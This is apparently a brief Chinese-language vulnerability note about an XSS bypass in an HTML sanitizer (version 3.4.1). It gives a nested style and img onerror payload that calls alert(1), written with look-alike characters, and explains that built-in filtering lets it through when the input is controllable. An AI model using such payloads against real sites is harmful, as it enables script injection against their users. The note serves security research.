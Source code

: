 ```js
<style><style /><img src=yy οnerrοr=alert(1)> </style>
```

3.4.1：

```js
<style><style ></style><img src="yy" οnerrοr="alert(1)"> 
```

利用漏洞：
版本符合，`<style><style ></style><img src="yy" οnerrοr="alert(1)"> `值可控 就可以造成xss

能够造成漏洞的原因：内置过滤

内置过滤可参考文章：https://blog.csdn.net/axxxwo/article/details/120586585